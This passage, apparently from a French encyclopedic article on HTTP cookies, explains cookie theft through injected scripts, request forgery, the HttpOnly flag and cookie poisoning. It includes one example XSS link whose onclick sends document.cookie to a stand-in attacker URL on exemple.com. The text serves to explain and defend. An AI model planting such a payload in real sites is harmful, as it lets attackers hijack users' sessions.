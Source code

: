Un autre moyen pour voler les cookies est l'écriture de script dans les sites et faire en sorte que le navigateur envoie lui-même les cookies à des serveurs malveillants qui ne les reçoivent jamais. Les navigateurs modernes permettent l'exécution de parties de code recherchées à partir du serveur. Si les cookies sont accessibles pendant l'exécution, leurs valeurs peuvent être communiquées sous une certaine forme aux serveurs qui ne devraient pas y accéder. Chiffrer les cookies avant leur envoi sur le réseau n'aide pas à contrer l'attaque.
Ce type d'écriture de script dans le site est typiquement employé par les attaquants sur les sites qui permettent aux utilisateurs de publier des contenus HTML. En intégrant une partie de code compatible dans la contribution en HTML, un attaquant peut recevoir des cookies d'autres utilisateurs. La connaissance de ces cookies peut être utilisée en se connectant au même site en utilisant les cookies volés, ainsi en étant reconnu en tant que l'utilisateur dont les cookies ont été volés.
Un moyen pour prévenir de telles attaques est d'utiliser le drapeau HttpOnly ; c'est une option, introduite en 2002 au sein de la version 6 SP1 de Internet Explorer, et disponible en PHP depuis la version 5.2.0. Cette option est prévue pour rendre le cookie inaccessible au navigateur via l'exécution de scripts (généralement javascript). Les développeurs web devraient prendre en compte cette option dans leur développement de site afin qu'ils soient immunisés contre l'accès aux cookies, notamment de session, via l'exécution de scripts au sein du navigateur de l'utilisateur.
Une autre menace de sécurité utilisée est la fabrication de demande dans le site.
La spécification technique officielle permet aux cookies d'être renvoyés uniquement aux serveurs du domaine dont ils sont originaires. Cependant, la valeur des cookies peut être envoyée à d'autres serveurs en utilisant des moyens différents des en-têtes de cookies.
En particulier, les langages de script comme JavaScript sont généralement autorisés à accéder aux valeurs des cookies et sont capables d'envoyer des valeurs arbitraires à n'importe quel serveur sur Internet. Cette capacité des scripts est utilisée à partir de sites web permettant aux utilisateurs de poster des contenus HTML que d'autres utilisateurs peuvent voir.
Par exemple, un attaquant fonctionnant sur le domaine exemple.com peut publier un commentaire contenant le lien suivant pointant vers un blog populaire qu'il ne contrôle pas autrement :
<a href="#" onclick="window.location = 'http://exemple.com/stole.cgi?text=' + escape(document.cookie); return false;">Cliquez ici !</a>
Quand un autre utilisateur clique sur ce lien, le navigateur exécute la partie de code de l'attribut onclick, ainsi il remplace la chaîne de caractère document.cookie par la liste des cookies de l'utilisateur qui sont actifs pour cette page. Par conséquent, cette liste de cookies est envoyée au serveur exemple.com, et l'attaquant est donc capable de collecter les cookies de cet utilisateur.
Ce type d'attaque est difficile à détecter du côté utilisateur parce que le script provient du même domaine qui a mis en place le cookie, et l'opération d'envoi des valeurs semble être autorisée par ce domaine. Il est considéré que c'est la responsabilité des administrateurs opérant ce type de sites de mettre en place des restrictions empêchant la publication de code malveillant.
Les cookies ne sont pas directement visibles aux programmes du côté client comme le JavaScript s'ils ont été envoyés avec le drapeau HttpOnly. Du point de vue du serveur, la seule différence est que dans la ligne de l'en-tête Set-Cookie y est ajouté un nouveau champ contenant la chaîne de caractères HttpOnly :
Set-Cookie: RMID=732423sdfs73242; expires=Fri, 31-Dec-2010 23:59:59 GMT; path=/; domain=.exemple.net; HttpOnly
Quand le navigateur reçoit un tel cookie, il est censé l'utiliser normalement dans l'échange HTTP suivant, mais sans le rendre visible aux scripts exécutés du côté client. Le drapeau HttpOnly ne fait partie d'aucune spécification technique officielle, et n'est pas implémenté dans tous les navigateurs. Notez qu'il n'y a actuellement aucun moyen de prévenir la lecture et l'écriture des cookies de session par la méthode XMLHTTPRequest.


### Modification de cookie
Dès que les cookies ont besoin d'être stockés et renvoyés inchangés au serveur, un attaquant peut modifier la valeur des cookies avant leur renvoi au serveur. Par exemple, si un cookie contient la valeur totale que l'utilisateur doit payer pour les articles mis dans le panier du magasin, en changeant cette valeur le serveur est exposé au risque de faire payer moins l'attaquant que le prix de départ. Le procédé de modifier la valeur des cookies est appelé cookie poisoning et peut être utilisé après un vol de cookie pour rendre l'attaque persistante.
